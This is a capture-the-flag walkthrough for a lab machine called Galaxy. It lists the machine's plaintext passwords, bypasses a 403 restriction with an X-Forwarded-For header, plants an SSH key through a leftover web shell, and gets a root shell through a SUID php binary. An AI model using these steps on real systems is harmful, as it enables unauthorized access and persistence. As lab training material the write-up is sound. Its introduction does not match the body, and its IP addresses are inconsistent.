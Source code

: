 # [Galaxy]

## Introduction

Galaxy is easy level machine In this challenge, machine hosting a beta website about facts. The site was vulnerable to bypassing the 403 Forbidden restriction using the X-Forwarded-For header. After successfully bypassing the restriction, I accessed the "doston" user account, where their password was leaked. The "doston" user had a custom .sh file that, we can exploit rce.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | 1203a |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is vulnerable to http host header
3) There is web shell in /developers directory
4) php has suid bit permission

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find /developers and /photos directories and /developers directory gives us 403 forbidden error<br>

![image](https://github.com/user-attachments/assets/27c54f85-4952-4b13-8040-9c07dea34883)
<br>
Trying to enumerate any subdomains other directory leads us nothing. So we try to find a way to access /developers directory.<br>
Googling 403 bypass error we find [this](https://github.com/justdoston/403-Bypass) documentation.<br>
According to documentation trying to add forward headers with 127.0.0.1 ip will work, because server will think user trying to access from internal IP address.<br>

Let's use proxy forwarding tool such as burp suite to manupulate and try this technique.<br>
![image](https://github.com/user-attachments/assets/605568f6-ecb7-4b28-a860-f5d9f7f40430)


`X-Forwarded-For: 127.0.0.1` header successfuly worked to bypass<br>
![image](https://github.com/user-attachments/assets/3374c55f-ae55-45b0-9f02-3b87781a9c92)



# Foothold

We use same technique to see content of README.md file:<br>
![image](https://github.com/user-attachments/assets/b3785047-9a54-42f9-99ba-cc7f56164d91)
<br>
Not much usefull let's take a look to web.php file<br>
![image](https://github.com/user-attachments/assets/1ce77e27-b006-49be-b5fa-1f321d4f40e7)

<br>
It looks like developers left webshell in developers directory, it is because web site hasn't been finished fully yet<br>
We can copy our own id_rsa.pub (publick key) to web users authorize_keys to login via ssh without a password

```
echo "public key" > /home/web/.ssh/authorized_keys
```


<br>
Let's login using our own ssh with id_rsa for more comfortable and stable shell. If you don't have id_rsa keys create using 

<br>`ssh-keygen -t rsa`<br>

````
┌──(master㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa web@192.168.2.106
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-50-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jan 24 02:47:24 AM UTC 2025

  System load:  0.0               Processes:               105
  Usage of /:   33.7% of 7.79GB   Users logged in:         0
  Memory usage: 9%                IPv4 address for enp0s3: 192.168.2.106
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Fri Jan 24 02:19:46 2025 from 192.168.2.107
$ 
````
user flag can be found in web home directory.<br>

# Privilege Escalation
After a long enumeration files with suid bit permission worth to pay attention:

````
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x+ 1 root root 5779920 Dec  2 12:36 /usr/bin/php8.3
-rwsr-xr-x 1 root root 72792 May 30  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 277936 Apr  8  2024 /usr/bin/sudo
-rwsr-xr-x+ 1 root root 137776 Apr  8  2024 /usr/bin/diff
-rwsr-xr-x 1 root root 51584 Aug  9 02:33 /usr/bin/mount
-rwsr-xr-x 1 root root 55680 Aug  9 02:33 /usr/bin/su
-rwsr-xr-x 1 root root 40664 May 30  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 76248 May 30  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 64152 May 30  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 39296 Aug  9 02:33 /usr/bin/umount
-rwsr-xr-x 1 root root 44760 May 30  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39296 Apr  8  2024 /usr/bin/fusermount3
-rwsr-xr-- 1 root messagebus 34960 Aug  9 02:33 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 18736 Apr  3  2024 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 163112 Oct 11 08:05 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 342632 Aug  9 02:33 /usr/lib/openssh/ssh-keysign
````
Because php has suid bit permission if we browse to gtfobins we can  escalate privilege:
<br>
![image](https://github.com/user-attachments/assets/ce6fe95d-27bc-4493-9627-fdedd8aeeeca)

````
$ /usr/bin/php8.3 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=1004(web) gid=1004(web) euid=0(root) groups=1004(web)
# whoami
root
#
````
Now we have root shell, root flag can be found in /root directory

